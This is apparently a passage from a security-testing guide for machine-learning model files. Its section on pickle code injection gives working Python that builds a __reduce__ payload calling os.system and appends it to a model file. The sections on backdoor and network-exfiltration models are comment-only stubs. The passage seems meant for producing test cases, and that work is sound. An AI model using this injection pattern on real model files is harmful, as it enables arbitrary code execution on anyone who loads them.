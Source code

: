 ### 6.1 Pickle-Based Code Injection

```python
# create_pickle_malicious_model.py
import pickle
import os
import sys

class MaliciousPayload:
    def __reduce__(self):
        # Simple payload that creates a file
        return (os.system, ("touch /tmp/malicious_model_executed",))

def inject_malicious_pickle(input_model, output_model):
    """Inject malicious pickle payload into a model file"""
    # Read original model
    with open(input_model, 'rb') as f:
        data = f.read()
    
    # Create malicious pickle payload
    payload = pickle.dumps(MaliciousPayload())
    
    # Inject payload at a suitable location
    # For this example, we'll just append it, but real attacks would be more sophisticated
    with open(output_model, 'wb') as f:
        f.write(data)
        f.write(b'\n#PICKLE_START\n')
        f.write(payload)
        f.write(b'\n#PICKLE_END\n')
```

### 6.2 Backdoor Injection

```python
# create_backdoored_model.py
def inject_backdoor(input_model, output_model, trigger_phrase="execute_backdoor"):
    """Create a model with a backdoor triggered by a specific phrase"""
    # This is a simplified example
    # Real backdoor injection would modify model weights or add hidden functionality
    # ...
```

### 6.3 Network Exfiltration Capability

```python
# create_exfiltration_model.py
def add_exfiltration_capability(input_model, output_model):
    """Add network exfiltration capability to a model"""
    # Inject code that attempts to send data over the network
    # ...
```

## 7. Results Analysis and Reporting
